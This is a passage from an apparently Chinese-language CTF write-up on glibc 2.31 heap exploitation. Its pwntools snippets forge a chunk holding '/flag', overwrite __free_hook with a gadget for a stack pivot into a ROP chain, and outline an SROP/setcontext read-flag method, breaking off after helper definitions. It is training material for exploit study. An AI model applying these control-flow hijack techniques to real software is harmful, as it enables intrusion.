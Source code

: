 ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685600356905-2033730a-549c-4150-ba1a-605cd4b8b607.png#averageHue=%230d0503&clientId=u5b8e4ff9-0d4c-4&from=paste&height=65&id=u77a401e6&originHeight=108&originWidth=1139&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=9367&status=done&style=none&taskId=ueb0c043b-27eb-41c6-bc53-08ae3206e80&title=&width=690.3029904045919)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685602083502-9f9eae19-0228-4068-a991-b0421e68d069.png#averageHue=%23070a0a&clientId=u6bbf0b64-1d57-4&from=paste&height=105&id=u7d9c0a68&originHeight=174&originWidth=1357&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=88972&status=done&style=none&taskId=u56c9d807-bc69-4948-910d-4805245afaa&title=&width=822.4241948894041)
> 迷思：为什么还可以在原来的基础上编辑
> ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685605218609-621d3f5f-e7d5-417d-8e2e-ac107c6a93f0.png#averageHue=%23100d0b&clientId=u6bbf0b64-1d57-4&from=paste&height=287&id=u9b8fd8c7&originHeight=474&originWidth=1113&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=99553&status=done&style=none&taskId=u74624295-a4c3-49b8-9ade-1ffff2aa751&title=&width=674.5454155577795)
> 因为又一次创建了缓冲，所以可以在改缓冲上进行编辑，利用这个缓冲

```python
new(8,0xf0,flat({ #使用flat将多个序列生成单一序列
        0x00: 0x67616C662F, # /flag  #在偏移0x00处存入flag字段
        0x28: libc_base+0x00000000000578c8, #做栈迁移
        0x48: heap_base+0xfa0  #指chunk，rop
}, filler=b'\x00')) #最后有b'\x00' 填充剩余的位置
```
#### 修改free_hook内容
因为rdi是free时候的指针，而【rdi】就等于取chunk里面的内容进行操作了，这样就能完美劫持程序流程，进行rop
```python
new(9,0xf0,p64(libc_base+0x0000000000154dea)) # rbp=[rdi+0x48]; rax=[rbp+0x18]; call [rax+0x28]
```
#### 释放chunk8，即原先idx=6，就可以进行rop
```python
free(8)
```
### 最终的图解
> 补充一个点：栈迁移
> 完成两个点即可：
> - 修改ebp为目标的栈空间
> - leave ret为到目标的点，并执行下一条指令
> - 先找gadget，再进行栈排布
> 
还有，保护全开，记得能泄露就泄露出来

![67a587ef707b3c34e646f7d71140d50.jpg](https://cdn.nlark.com/yuque/0/2023/jpeg/29466846/1685606843897-142a4d1a-2a73-426c-9a60-371d731cb6ab.jpeg#averageHue=%2398958f&clientId=u6bbf0b64-1d57-4&from=paste&height=3232&id=ucb9b7252&originHeight=4000&originWidth=3000&originalType=binary&ratio=1.6500000953674316&rotation=90&showTitle=false&size=1634014&status=done&style=none&taskId=u4c062e7a-85d0-4635-b952-5c72069e9d7&title=&width=2424)
### 其他解法
这种是属于常见的劫持程序流程到堆上，核心都是控制rsp到堆
#### 通过SROP+ROP链
> 关键点：控制rdx，因为是2.31的版本
> 能用orw，那就用mov_rdx_rdi_配合setcontext函数进行orw读flag了

```python
from pwn import *

from struct import pack

from ctypes import *

 

def s(a):

  p.send(a)

def sa(a, b):

  p.sendafter(a, b)

def sl(a):

  p.sendline(a)

```